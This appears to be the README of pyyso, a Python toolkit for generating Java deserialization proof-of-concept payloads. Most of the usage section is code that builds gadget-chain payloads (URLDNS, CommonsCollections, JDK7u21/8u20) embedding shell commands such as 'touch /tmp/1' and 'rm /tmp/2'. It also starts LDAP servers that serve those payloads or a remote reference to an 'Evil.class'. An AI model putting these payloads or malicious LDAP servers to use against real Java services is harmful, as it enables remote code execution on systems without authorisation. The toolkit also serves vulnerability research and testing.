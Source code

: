 # pyyso: powerful java serialized toolkit

## What is it?
**pyyso** is a Python package that provides fast and flexible ways to generate java serialized poc.
It aims to be the fundamental high-level building block for doing vulnerability **check and research** in Python.
Additionally, it has a goal of becoming the most convenient and reliable toolkit implemented in Python for Java researchers

## Main Features
Here are just a few of the things that pyyso does well:

- Easy generating of java serialized poc
- Powerful, flexible functionality to start a ldap/rmi server to host java serialized pocs
- Communicating and collaborating with other Python packages 

pyyso has implemented
- URLDNS Gadget
- CommonCollections1-7 Gadgets
- JDK7u21 Gadget
- JDK8u21 Gadget
- java class embed with command
- ldap server hosting java serialized pocs
- ldap server hosting java remote reference factory

## Where to get it
The source code is currently host on GitHub at:
https://github.com/cokeBeer/pyyso

## Installation from sources
```
pip install pyyso
```

## How to use
First import pyyso
```
import pyyso
```
to generate a java serialized zed poc use:
```
pyyso.urldns("https://x.dnslog.com") #return java serialzed data of URLDNS in bytes
pyyso.cc1("touch /tmp/1") #return java serialzed data of CommonColletions1 in bytes
pyyso.cc2("touch /tmp/1") #return java serialzed data of CommonColletions2 in bytes
pyyso.jdk7u21("touch /tmp/1") #return java serialzed data of JDK7u21 in bytes
pyyso.jdk8u20("touch /tmp/1") #return java serialzed data of JDK8u20 in bytes
```
to generate a java class embed with command use:
```
pyyso.evil("touch /tmp/1") #return java class embed with command in bytes
```
to start a ldap server hosting java serialized pocs:
```
serobj=pyyso.cc1("touch /tmp/1")
server=pyyso.LdapSerialized(serobj=serobj, ip="0.0.0.0", port=1389)
server.run()
```
this will start a ldap server listening 0.0.0.0:1389  
you can change the hosted java serialized data by:
```
server.serobj=pyyso.cc1("rm /tmp/2")
```
to start a ldap server hosting java remote reference factory:
```
server=pyyso.LdapRemoteRef(javaCodeBase="http://127.0.0.1:8088/", javaFactory="Evil", javaClassName="java.lang.String", ip="0.0.0.0", port=1389):
server.run()
```
this will start a ldap server listening 0.0.0.0:1389  
and will return a remote reference pointer to `http://127.0.0.1:8088/Evil.class`

## License
[MIT](LICENSE)

## Inspired by
https://github.com/frohoff/ysoserial  
https://github.com/mbechler/marshalsec
